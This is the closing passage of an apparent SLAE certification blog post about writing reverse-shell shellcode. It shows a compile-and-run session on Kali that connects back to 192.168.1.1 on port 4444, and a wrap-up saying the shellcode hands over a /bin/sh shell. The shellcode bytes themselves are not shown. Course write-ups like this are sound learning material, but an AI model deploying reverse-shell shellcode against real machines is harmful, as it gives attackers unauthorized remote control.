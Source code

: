 ```c

    ret();
}

```


**_Running our Shellcode_**

```bash
root@kali:~/courses/slae/exam# gcc shellcode.c -o shellcode

root@kali:~/courses/slae/exam# ./shellcode 192.168.1.1 4444
Shellcode Length:  94

```

## Wrap-Up

Now it's time for bed. We have shellcode that successfully connects back to us upon being executed, and presents us with a nice `/bin/sh` shell! I hope you learned something with me this assignment, and if you had any trouble following, go back and look at assignment 1, and/or drop me a comment. Until next time, try harder!


###### SLAE Exam Statement

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1158
